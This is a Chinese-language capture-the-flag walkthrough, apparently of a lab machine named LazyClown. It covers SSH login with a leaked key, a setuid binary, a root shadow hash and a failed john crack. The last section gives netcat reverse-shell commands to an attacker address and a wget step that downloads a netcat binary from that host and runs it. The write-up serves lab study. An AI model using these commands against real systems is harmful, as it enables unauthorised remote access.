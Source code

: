 访问/mysshkeywithnamemitsos

将密钥保存为一个名为id_rsa的文件。

```
chmod 400 id_rsa
ssh -i id_rsa mitsos@10.10.10.18
```

#### INFO
家目录下有一个suid权限的elf程序。尝试用john破解/etc/shadow，失败。
```
mitsos@LazyClown:~$ ls -al backup
-rwsrwsr-x 1 root root 7303 May  3  2017 backup

mitsos@LazyClown:~$ file backup
backup: setuid, setgid ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=33d6b5bec96c44e630f37ff41cc1c4a8b2813b6b, not stripped

一下就是/etc/shadow的第一行
root:$6$v1daFgo/$.7m9WXOoE4CKFdWvC.8A9aaQ334avEU8KHTmhjjGXMl0CTvZqRfNM5NO2/.7n2WtC58IUOMvLjHL0j4OsDPuL0:17288:0:99999:7:::

复制第一个冒号和第二个冒号之间的字符串，就是密文。将密文保存为文件名pass
$6$v1daFgo/$.7m9WXOoE4CKFdWvC.8A9aaQ334avEU8KHTmhjjGXMl0CTvZqRfNM5NO2/.7n2WtC58IUOMvLjHL0j4OsDPuL0

---
john --wordlist=/usr/share/john/password.lst ./pass
解密失败
---
```

strings backup

![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-09/5.PNG)

#### 上传nc

```
mitsos@LazyClown:~$whereis nc
/bin/nc

尝试nc反弹shell，结果netcat-openbsd package，不支持-e参数。
mitsos@LazyClown:~$/bin/nc -e /bin/sh 10.10.14.7 1122


于是上传一个nc
wget http://10.10.14.7/netcat;chmod a+x netcat

/home/mitsos/netcat -h 
/home/mitsos/netcat -e /bin/sh 10.10.14.7 1122

```
